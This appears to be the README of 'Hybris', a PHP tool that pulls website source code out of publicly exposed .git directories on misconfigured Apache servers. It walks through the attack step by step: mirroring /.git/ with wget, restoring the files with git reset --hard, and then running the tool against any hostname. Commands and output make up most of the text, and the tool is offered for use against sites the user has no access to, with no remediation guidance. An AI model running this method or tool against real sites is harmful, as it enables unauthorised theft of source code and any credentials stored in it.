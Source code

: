 # Hybris

## Genesis

#### The .git directory

So, let’s begin. When you create a git repo, using git init, git creates this wonderful directory: the .git. This folder contains all the informations needed for git to work. To be clear, if you want to remove git from your project, but keep your project files, just delete the .git folder. But come on, why would you do that?


#### Lazy developer

Sometimes developers use git also to make deploys to server. They going to public directory with initialized git repository and execute pull command.
```bash
$ git pull
```

Code will be update up to server and .git dir will be exists

#### Bad Apache2 configuration

If on apache2 DirectoryListing is enabled you can go to .git directory by browser and see all config and object files
```
http://example.com/.git/
```

Like that:

```
Index of /.git
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	-
[   ]	HEAD	2018-11-21 22:21	23
[DIR]	branches/	2018-11-21 22:21	-
[   ]	config	2018-11-21 22:21	271
[   ]	description	2018-11-21 22:21	73
[DIR]	hooks/	2018-11-21 22:21	-
[   ]	index	2018-11-21 22:21	617
[DIR]	info/	2018-11-21 22:21	-
[DIR]	logs/	2018-11-21 22:21	-
[DIR]	objects/	2018-11-21 22:21	-
[   ]	packed-refs	2018-11-21 22:21	107
[DIR]	refs/	2018-11-21 22:21	-
Apache/2.4.18 (Ubuntu) Server at grabower.me Port 80
```

### Attack method

At first you have to download mirror of .git directory:

```bash
$ wget --mirror -I .git http://example.com/.git/ -q --show-progress
```

Next go to downloaded directory

```bash
$ cd example.com
```

Right now you are on something link git repository with removed all files.

```bash
$ git status
```

```bash
On branch master
Your branch is up-to-date with 'origin/master'.
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git checkout -- <file>..." to discard changes in working directory)

	deleted:    CliAlert.php
	deleted:    CliComponent.php
	deleted:    CliFormat.php
	deleted:    CliText.php
	deleted:    CliTypo.php
	deleted:    README.md
	deleted:    composer.json

no changes added to commit (use "git add" and/or "git commit -a")

```

So if file was removed you can reset status of repository and recreate files..

```bash
$ git reset --hard
```

```bash
HEAD is now at 8d87069 update doc
```

Results?
```bash
$ ls -all
```

```bash
total 80
drwxr-xr-x  10 adriangrabowski  staff   320 Nov 22 09:09 .
drwxr-xr-x+ 93 adriangrabowski  staff  2976 Nov 22 09:07 ..
drwxr-xr-x  23 adriangrabowski  staff   736 Nov 22 09:10 .git
-rw-r--r--   1 adriangrabowski  staff  1061 Nov 22 09:09 CliAlert.php
-rw-r--r--   1 adriangrabowski  staff  6213 Nov 22 09:09 CliComponent.php
-rw-r--r--   1 adriangrabowski  staff  6592 Nov 22 09:09 CliFormat.php
-rw-r--r--   1 adriangrabowski  staff  2138 Nov 22 09:09 CliText.php
-rw-r--r--   1 adriangrabowski  staff   610 Nov 22 09:09 CliTypo.php
-rw-r--r--   1 adriangrabowski  staff  7829 Nov 22 09:09 README.md
-rw-r--r--   1 adriangrabowski  staff   651 Nov 22 09:09 composer.json
```

All files from repository are restored, so you have a webpage code without access to FTP/SSH servers :)

## Hybris tool as automatic attack

### Requirements

Code is written in PHP with composer libraries. To run this code you have to install:

* git
* php >= 5.6
* composer

### Usage

Very simple :)

```bash
$ php hybris.php [hostname]
```

```bash
$ php hybris.php example.com
```

Code will verify /.git/ directory exist. If no

```bash
$ php hybris.php google.com

***********************************************************************
*                 Git directory not exist on web page                 *
***********************************************************************
```

In /.git/ directory will be exist on server script automatically create mirror and restore files of webpage in '**output**' directory